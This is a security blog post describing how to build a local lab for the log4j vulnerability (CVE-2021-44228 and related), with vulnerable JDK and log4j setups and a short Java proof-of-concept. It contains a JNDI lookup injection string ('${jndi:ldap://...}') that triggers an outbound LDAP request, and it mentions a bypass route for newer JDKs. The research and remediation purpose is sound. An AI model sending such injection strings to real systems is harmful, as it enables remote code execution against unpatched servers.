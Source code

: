 ```yaml
---
title: Building a Research Environment for Log4j
date: 2023-03-03T20:35:05+00:00
tags: 
  - Apache
  - DNS resolver
bg_image: /assets/images/posts/image-4.png
---
```

With its widespread adoption rate and the challenge enterprises face with tracking down where it is being used, log4j would likely continue to be a relevant attack vector for quite a long time. Because of this, we decided to showcase how one would go about building a local lab that could be used both for developing and testing an exploit, as well as help to confirm and adapt remedial actions.

For background, whenever we refer to the Apache log4j vulnerability, we mean the following CVEs:

-   CVE-2021-44228
-   CVE-2021-45046
-   CVE-2021-45105

## 1\. Building the Vulnerable Server

Due to the many conditions and elements included in this vulnerability, which significantly influence the impact and the possible steps for remediation, we found that to be able to test and obtain realistic results that can then confidently be relied on, we had to be very precise when setting up the environment. For example, the version of JDK, the version of log4j, the operating system, the running DNS resolver services, the log4j configuration file, the Java configuration file, the environment variables, as well as what other libraries are being included in the application can all make the exploitation and patching of this issue slightly different.

And because of this, it is important to make sure that all the software matches the one of the target application. To that end, in this article, you will see that we pay particular attention not only to the version of log4j but also to Java as it also plays an important role in the exploit.

We will cover three different ways of building a vulnerable server:

### **Docker Container**

Start right away with Docker, which is by far the easiest to set up. OpenJDK (an open-source implementation of the Java Platform, Standard Edition) offers [all the versions of Java](https://hub.docker.com/_/openjdk) that you may need; ready to be downloaded and used.

Keep in mind that JDK versions greater than 6u211, 7u201, 8u191, and 11.0.1 are not affected by the LDAP attack vector. In these versions `com.sun.jndi.ldap.object.trustURLCodebase` is set to *false* meaning JNDI cannot load remote code using LDAP. However, the vulnerability is still exploitable using other methods, such as [beanfactory](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

In the example below you will see how easy it is to download JDK 8u171 and jump right into it:

![](/assets/images/posts/image-13.png)

### **Linux Virtual Machine**

Alternatively, if you prefer to set up the testing environment directly on a Linux server, it is still relatively easy. You can go to the [Java SE archive](https://secariolabs.com/building-a-research-environment-for-log4j/o%09https:/www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html) and select the version of Java that you need (we recommend the tar.gz format).

Once the version is downloaded, it is just a matter of extracting the archive, as shown below:

```bash
user@ubuntu:~/poc$ ll -Ah
total 183M
-rw-rw-r-- 1 user user 183M Dec 20 02:13 jdk-8u171-linux-x64.tar.gz

user@ubuntu:~/poc$ tar zxvf jdk-8u171-linux-x64.tar.gz
[...snip...]

user@ubuntu:~/poc$ ll -Ah
total 183M
drwxr-xr-x 8 user user 4.0K Mar 28  2018 jdk1.8.0_171/
-rw-rw-r-- 1 user user 183M Dec 20 02:13 jdk-8u171-linux-x64.tar.gz

user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -version
java version "1.8.0_171"
Java(TM) SE Runtime Environment (build 1.8.0_171-b11)
Java HotSpot(TM) 64-Bit Server VM (build 25.171-b11, mixed mode)

```

### **Windows Virtual Machine**

Unlike the previous two options, downloading Java on Windows system without actually installing it, is slightly more involved. It all starts the same way: by downloading the wanted version of Java from the [Java SE archive](https://www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html), but then rather than installing it we will have to do a few steps.

As initially described by [Igor on Stack Overflow](https://stackoverflow.com/questions/1619662/how-can-i-get-the-latest-jre-jdk-as-a-zip-file-rather-than-exe-or-msi-installe):

**Step 1:** Download and install [7zip](https://www.7-zip.org/download.html)

**Step 2:** Unarchive the executable "jdk-XuXX-windows-x64.exe" with 7zip, as shown below:

![](/assets/images/posts/image-14-1024x392.png)

**Step 3:** Run `extrac32 111` within the `.rsrc\1033\JAVA_CAB10` folder, as shown below:

![](/assets/images/posts/image-15.png)

**Step 4:** Extract the "tools.zip" archive in the same folder using 7zip

**Step 5:** Run `for /r %x in (*.pack) do .\bin\unpack200 -r "%x" "%~dx%~px%~nx.jar"` within the newly created "tools" folder, as shown below:

![](/assets/images/posts/image-16.png)

**Step 6:** Recursively copy the contents of the "tools" folder to a location where JDK would be located; in the screenshot below the new folder would be `C:\jdk-8u171`.

![](/assets/images/posts/image-17.png)

**Step7:** Verify that Java has been installed successfully:

![](/assets/images/posts/image-18.png)

## 2\. Building the Vulnerable Application

With a working server, the next step would be to download the version of log4j that would be used for testing. This could be achieved by downloading the (tar.gz or zip) library from [Apache's archive](https://archive.apache.org/dist/logging/log4j/).

In our case, that was version 2.14.1 of log4j, as shown below:

```bash
user@ubuntu:~/poc$ wget -q https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.tar.gz
user@ubuntu:~/poc$ tar zxf apache-log4j-2.14.1-bin.tar.gz
user@ubuntu:~/poc$ ls -l apache-log4j-2.14.1-bin/log4j-{api,core}-2.14.1.jar
-rw-r--r-- 1 user user  300364 Mar  6  2021 apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar
-rw-r--r-- 1 user user 1745701 Mar  6  2021 apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar

```

Once that is completed, the next step is to either recreate the application you are targeting, or a simple dummy one where you can work on the attack. A short piece of code that would be able to invoke the vulnerability has been included below:

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class POC {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(POC.class);
        logger.error("${jndi:ldap://example.com/z}");
    }
}
```

To compile the script, it is important to include both the "core" and the "api" libraries:

```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/javac -cp apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar POC.java
```

To run the script, it is once again required to include both libraries as well as the current folder:

```
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -cp apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:. POC
14:27:56.562 [main] ERROR POC - ${jndi:ldap://example.com/z}

```

*Note that the vulnerable application hangs once executed, as an LDAP request is being made in the background and it will need to timeout.*

## 3\. Testing the Proof-Of-Concept

At this point, the last element needed to complete the basic research environment would be to obtain visibility over the network traffic. Ideally, that would be done with a custom LDAP/DNS/RMI server that would be able to provide a clear indication of the request and any metadata it carries, as well as control over what data is sent back to the vulnerable application; however, some of that could be achieved with a simple packet analyser that can show if a request is being made, even if nothing is sent back. For a lot of the cases that should be enough to prove if the application is (still) vulnerable.

We would recommend Wireshark as it will be easy to see the different protocols and it is very intuitive to apply filters (unlike tcpdump). With it running (do not forget to execute it with elevated privileges), listening on all interfaces, you should be able to rerun the POC script and see the network traffic, as shown below:

![](/assets/images/posts/image-19.png)

That concludes our small testing environment for log4j. In our next blog post, we would focus more on exploiting the vulnerability and research different patching methods.